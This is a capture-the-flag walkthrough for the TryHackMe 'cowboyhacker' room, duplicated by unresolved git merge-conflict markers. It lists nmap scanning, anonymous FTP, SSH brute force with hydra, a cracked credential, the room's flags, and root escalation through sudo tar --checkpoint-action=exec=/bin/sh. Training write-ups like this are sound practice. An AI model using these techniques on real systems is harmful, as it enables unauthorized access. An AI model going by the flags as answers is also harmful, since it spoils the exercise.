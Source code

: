 <<<<<<< HEAD
https://tryhackme.com/room/cowboyhacker	

- run nmap on open ports `nmap -sC -sV <IP>`
	- 21: ftp
		- → ftp-anon
		- vsFTPd 3.0.3
	- 22: ssh
		- OpenSSH 7.2p2 
	- 80: http
		- Apache httpd 2.4.18

- go though webapp:
	-  conversation → possible usernames
		- spike, jet, ed/edward, ein, faye

- ftp:
	- log in as **anonymous** `ftp <IP>`
	- get:
		- locks.txt → list of potentional passwords
		- task.txt → new username ~ lin

- bruteforce ssh w/ hydra
	- `hydra -t 4 -L <list_of_usenames> -P <list_of_passwords> -vV <IP> ssh`
	- → lin:RedDr4gonSynd1cat3 

- ssh with creds from above
	- → get the user.txt flag → THM{CR1M3_SyNd1C4T3} 

- root the machine
	- `sudo -l` → possibility to run /bin/tar
	- → GTRFo bins → ```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh```
=======
https://tryhackme.com/room/cowboyhacker	

- run nmap on open ports `nmap -sC -sV <IP>`
	- 21: ftp
		- → ftp-anon
		- vsFTPd 3.0.3
	- 22: ssh
		- OpenSSH 7.2p2 
	- 80: http
		- Apache httpd 2.4.18

- go though webapp:
	-  conversation → possible usernames
		- spike, jet, ed/edward, ein, faye

- ftp:
	- log in as **anonymous** `ftp <IP>`
	- get:
		- locks.txt → list of potentional passwords
		- task.txt → new username ~ lin

- bruteforce ssh w/ hydra
	- `hydra -t 4 -L <list_of_usenames> -P <list_of_passwords> -vV <IP> ssh`
	- → lin:RedDr4gonSynd1cat3 

- ssh with creds from above
	- → get the user.txt flag → THM{CR1M3_SyNd1C4T3} 

- root the machine
	- `sudo -l` → possibility to run /bin/tar
	- → GTRFo bins → ```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh```
>>>>>>> ed86870e047cc27b656f2f20735dd248c5953b5d
	- get root.txt → THM{80UN7Y_h4cK3r}  
